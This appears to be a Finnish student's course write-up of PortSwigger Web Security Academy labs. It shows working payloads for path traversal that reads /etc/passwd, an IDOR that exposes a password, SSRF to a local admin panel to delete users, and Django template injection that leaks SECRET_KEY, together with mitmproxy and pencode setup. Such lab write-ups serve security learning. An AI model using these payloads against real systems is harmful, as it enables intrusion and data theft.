

Kuvaa ei nää:



Koska kuvaa ei nähnyt päätin kokeilla Zapilla. Käytin tähän asti UTM hypervisoria, mutta koska en ole asettanut siihen clipboardilta copy pastea, niin vaihdoin Parallelsin Kaliin. Valitettavasti en pysty ottamaan Paralellsin Kalista screenshotteja (johtuu varmaan, koska X11 ja Mac käyttää korkeaa ppi:tä (olen kokeillut vaihtaa Waylandiin Kalin dokumentaation ohjeilla, mutta jostain syystä se ei toimi (kirjatuminen ei kirjaudu (muuten Parallels ja Kali toimii oikein hyvin)))), joten koitan kuvien puuttuessa selittää parhaani mukaan.

Laitoin FoxyProxyn Proxy by patternsiin Labin osoitteen, joten vain sen liikenne tuli proxyyn. 

Tällä pyynnöllä:

```
GET https://0a6600d7036a92fe80f149b700c3004c.web-security-academy.net/image?filename=../../../etc/passwd HTTP/1.1
```
...tulee tämä vastaus (body: text):

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Tämä on mahdollista, koska palvelimella hakee sivulle kuvia hakemistosta /hakemisto/hakemisto/hakemisto tai niin kuin [^8] esimerkissä on, niin varmaankin /var/www/images ja koska sovellus sallii tehdä hakuja muihinkin hakemistoihin, voi hakemistossa siityä juuri hakemistoon, josta etc/passwd hakemistoon. 

---

### f) File path traversal, traversal sequences blocked with absolute path bypass [^9]

Tehtävänanto oli ehkä hieman paljasta joten laitoin vain hakuun ja sain vastaavan responsen kuin aiemmassa tehtävässä.  

```
image?filename=/etc/passwd
```

Sovellus mahdollistaa tiedostojen haun absoluuttisella pathilla, kuten PortSwiggerin infossa kerrotaan [^8].

---

### g) File path traversal, traversal sequences stripped non-recursively [^10].

Tehtävänanto paljasti jonkinverran tässäkin ja kokeilin PortSwiggerin infon ohjeiden avulla [^8] seuraavaa ja se antoi yllä olevan kaltaisen responsen bodyssä teksimuotoisena.

```
image?filename=....//....//....//etc/passwd
```

Sovellukseen on tehty ilmeisesti path travelsalin estämiseksi toiminto jossa leikataan (strip) pyynnöstä pois `../`. Nyt kun tuo leikkaus tehdään niin jäljelle jää toiset `../` ja path traversal onnistuu.  

---

### h) Insecure direct object references [^13]

Täytyy myöntää, että sekoilin tämän kanssa jonkin aikaa, kunnes tajusin klikata *View Transcript*. Sen pyynnöstä näki helposti miten chatin tallentuisivat. 

```
GET https://0a6c00f40459be8d8191203d00a4009b.web-security-academy.net/download-transcript/2.txt
```

Koska minulle tuli 2.txt kokeilin 1.txt ja responsena tuli vastaus, josta löytyi carloksen salasana. 

Tehtävä perustui IDOR haavoittuvuudeen, jossa sovellus tallentaa ja suorittaa pyyntöjä resursseista suoraan URL:lla ja sovelluksessa ei ole tehty mitään authorisointia noiden URL:n suojaamiseksi [^14].

---

### i) Basic SSRF against the local server [^11]


Check stock lähetti POST pyyntönä formissa valitun optionin valuen backendiin. Vaihdoin Zapissa ohjeen PortSwiggerin ohjeen mukaan [^12]. 

```
stockApi=http://localhost/admin
```

Responsena tuli admin paneeli:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```

Laitoin selaimen osoitekenttään:

```
https://0a8a001f045579cf80148f2b009b004b.web-security-academy.net/admin/delete?username=carlos
```

Jolloin vastaukseksi tuli ystävällinen neuvo 😃

"Admin interface only available if logged in as an administrator, or if requested from loopback"

Niimpä laitoin aiempaan samaan post pyyntöön:

```
stockApi=http://localhost/admin/delete?username=carlos
```

Vastaukseskti tuli 401 Unauthorized. Olin hieman ihmeissäni ja menin katsomaan admin paneelia uudellan ja seuraavaksi admin paneelissa oli, että poistaminen onnistui ja tehtävä meni läpi. En tiedä miksi. Testasin uudelleen toisella käyttäjällä ja vaikka pyynnöstä tulee 401, niin toinenkin käyttäjä oli poistunut ja yhtään käyttäjää ei ollut jäljellä. 

Se mitä tässä ymmärtääkseni tapahtuu on, että tehdään pyyntö yhteen osoitteeseen ja pyynnön payloadina lähtee url jolla kutsutaan toista API:a (weliketoshop). Luulen että sen Unauthorized täytyy tulla siitä, että koska pyynnön payload on kelpaamaton eikä stockin määrää voida palauttaa, niin sovellus on koodattu palauttamaan Unauthorized (ehkä se on se mitä weliketoshop api palauttaa ja sovellus jatkaa sen eteenpäin). Samaan aikaan admin paneelista poistuu käyttäjä localhostin kautta.    


---

### j) Vapaaehtoinen, hieman haastava: Server-side template injection with information disclosure via user-supplied objects [^15]

Tutkein ensin infoa [^16] ja tässä pitäisi hyväksikäyttää sovellukseen jäänyttä haavoittuvuutta sen template enginessä. Olen itse käyttänyt Spring kehyksen Thymeleaf template engineä ja siinä muuttujia voi passata templatelle ja ne tulevat osaksi templaten renderoimää html:ää.    

Pyyntö, jossa on tämä payloadina: 

```
csrf=yG0aQX8UOK3qm8hbkRs3kyCwziSUig3C&template=Tadaa: {{product.price  }}&template-action=preview
```

antaa tämän vastuksen:

```html
<div id=preview-result>
Tadaa: $13.39

</div>
```

Internal server error on seuraava:

```
<h4>Internal Server Error</h4>
<p class=is-warning>Traceback (most recent call last):
File &quot;&lt;string&gt;&quot;, line 11, in &lt;module&gt;
File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 191, in __init__
self.nodelist = self.compile_nodelist()
File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 230, in compile_nodelist
return parser.parse()
File &quot;/usr/local/lib/python2.7/dist-packages/django/template/base.py&quot;, line 486, in parse
raise self.error(token, e)
django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: &apos;% django %&apos; from &apos;% django %&apos;</p>
```

Kysesssä on siis varmastikkin django. Säädettyäni aika pitkän aikaa ja periaatteessa arvailtuani mahdollisa arvoja (en tunne yhtään djangoa puhumattakaan sen template engineistä), laitoin googleen haun "django server side template injection" ja löysin cheatsheet listan [^18] ja sieltä kokeilin `{{settings.SECRET_KEY}}` ja se toimi. Eli kokonaisuudessaan laitoin payloadin ja sain oikean vastauksen html:ään.

```
csrf=iwAEVTC3FkEWoGfF0Q749oRvwW6PPBbq&template=Tadaa: {{ settings.SECRET_KEY}}  &template-action=save
```


---

### k) Vapaaehtoinen, helppo: Asenna pencode ja muunna sillä jokin merkkijono (encode a string).

Pencoden näyttää saavan myös paketinhallinnasta joten asensin sen siltä

```
└─$ sudo apt-cache search pencode 
golang-github-ffuf-pencode-dev - Complex payload encoder (program)
```

```
sudo apt-get install golang-github-ffuf-pencode-dev    
```

Ja käyttö onnistui [^17] ohjeilla.

```
└─$ echo 'what%ever'|pencode urlencode b64encode hexencode
64326868644355794e5756325a58493d
```


---

### l) Vapaaehtoinen: Mitmproxy. Asenna MitmProxy. Esittele sitä terminaalissa (TUI). Ota TLS-purku käyttöön. [^19].

```
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ sudo apt-get install mitmproxy      
```

Tein FoxyProxyllä uuden proxy asetuksen (localhost:8080) ja käytin Patternissa PortSwiggerin edellisen tehtävää lab osoitetta testatakseni toimivuutta. Käynnistin MitmProxyn ja varoitus tuli ruudulle. MitmProxyn dokumentaatiossa [^19] oli, että sovellus luo automaattisesti certin (mitmproxy-ca-cert.cer) .mitmproxy hakemistoon ja sieltä kopioitsinkin sertifikaatin selkeyden vuoksi omaan Documents hakemistooni. Lisäsin sertifikaatin Firefoxiin samalla tavalla asetuksista kuin Zapin kanssa ja proxyaminen alkoi toimia. 

Aika siistin näköinen tämä! Voisi olettaa, että opettelulla tätä oppisi käyttämään todella nopeasti. Lähetin get pyynnön, jolla haettiin product?productId=2 uudellen id:llä 10. Muuttaminen oli helppoa sovelluksen alla olevilla ohjeilla. 

---

### Lähteet

Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/

JetBrains IntelliJ IDEA: Code intelligence.

[^1]: PortSwigger. Lab: Reflected XSS into HTML context with nothing encoded: https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

[^2]: mdn web docs. form: The Form element: https://developer.mozilla.org/en-US/docs/Web/HTML/Element/form

[^3]: PortSwigger. Lab: Stored XSS into HTML context with nothing encoded: https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

[^4]: mdn web docs. Window: load event: https://developer.mozilla.org/en-US/docs/Web/API/Window/load_event

[^5]: Eric Jung, erosman. FoxyProcy Standard: https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/

[^6]: ZAP by Checkmarx. How do you configure ZAP to test an application on localhost? https://www.zaproxy.org/faq/how-do-you-configure-zap-to-test-an-application-on-localhost/

[^7]: PortSwigger. Lab: File path traversal, simple case: https://portswigger.net/web-security/file-path-traversal/lab-simple

[^8]: PortSwigger. Path travelsal: https://portswigger.net/web-security/file-path-traversal

[^9]: PortSwigger. Lab: File path traversal, traversal sequences blocked with absolute path bypass: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

[^10]: PortSwigger. Lab: File path traversal, traversal sequences stripped non-recursively: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

[^11]: PortSwigger. Lab: Basic SSRF against the local server: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

[^12]: PortSwigger. Server-side request forgery (SSRF): https://portswigger.net/web-security/ssrf#what-is-ssrf

[^13]: PortSwigger. Lab: Insecure direct object references: https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references

[^14]: PortSwigger. Insecure direct object references (IDOR):https://portswigger.net/web-security/access-control/idor 

[^15]: PortSwigger. Lab: Server-side template injection with information disclosure via user-supplied objects: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects

[^16]: PortSwigger: Server-side template injection: https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection

[^17]: ffuf. pencode: https://github.com/ffuf/pencode

[^18]: Busra Demir. A Pentester's Guide to Server Side Template Injection (SSTI): https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti

[^19]: MitmProxy. About Certificates: https://docs.mitmproxy.org/stable/concepts-certificates/

[^20]: OWASP Top 10 team. A01:2021 – Broken Access Control: https://owasp.org/Top10/A01_2021-Broken_Access_Control/

[^21]: OWASP Top 10 team. A01:2021 – Broken Access Control: https://owasp.org/Top10/A01_2021-Broken_Access_Control/

[^22]: OWASP Top 10 team. A10:2021 – Server-Side Request Forgery (SSRF): https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/

[^23]: PortSwigger: Cross-site scripting: https://portswigger.net/web-security/cross-site-scripting